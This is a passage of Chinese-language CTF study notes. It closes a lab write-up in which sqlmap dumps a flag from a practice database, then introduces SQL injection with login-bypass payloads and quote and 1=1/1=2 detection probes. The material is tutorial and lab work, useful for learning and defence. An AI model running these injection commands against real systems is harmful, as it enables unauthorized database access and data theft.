 最后就爆出flag啦：sqlmap -u "url地址/?wllm=1" -D test_db -T test_tb -C flag --dump  

```
sqlmap -u "http://node7.anna.nssctf.cn:22221/?wllm=1" -D test_db -T test_tb -C flag --dump  
```

![image-20250731114841241](E:\note_ctf\assets\image-20250731114841241.png)

## sql注入简介

SQL注入指用户输入的参数可控且没有被过滤，攻击者输入的恶意代码被传到后端与SQL语句一起构造并在数据库中执行

例如，假设一个登录页面使用以下SQL查询来验证用户输入：

```
SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password';
```

如果攻击者输入如下内容：

- 用户名：`' OR '1'='1`
- 密码：`' OR '1'='1`

这会生成类似下面的SQL查询：

```
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';
```

由于 `'1'='1'` 总是成立，查询结果会返回数据库中的所有用户信息，甚至可能绕过登录验证。

### 普通查询注入

判断漏洞是否存在

**数字型**

例如后端SQL语句长这样

```sql
select * from article where artid = 1 and xxxxx;
```

GET的请求参数是artid，可以在参数值后面输入单引号，此时数据库无法执行就会报错，说明存在SQL注入

```sql
?artid=1'
 
# select * from article where artid = 1' and xxxx;
```

通过and 1=1 ，and 1=2 判断

```sql
?artid=1 and 1=1
?artid=2 and 1=2
# select * from article where artid = 1 and 1=1 and xxxx;
# 若and 1=1页面回显正常，and 1=2 回显不正常 ，则说明拼接成功（1=2 永远为假，SQL 查询结果为空，所以页面回显异常或无数据）
#这种差异说明你的输入 确实影响了 SQL 的逻辑，也就是说参数被直接拼接进 SQL 中，没有经过预编译或安全处理。这就是 SQL注入成立的证明。
```
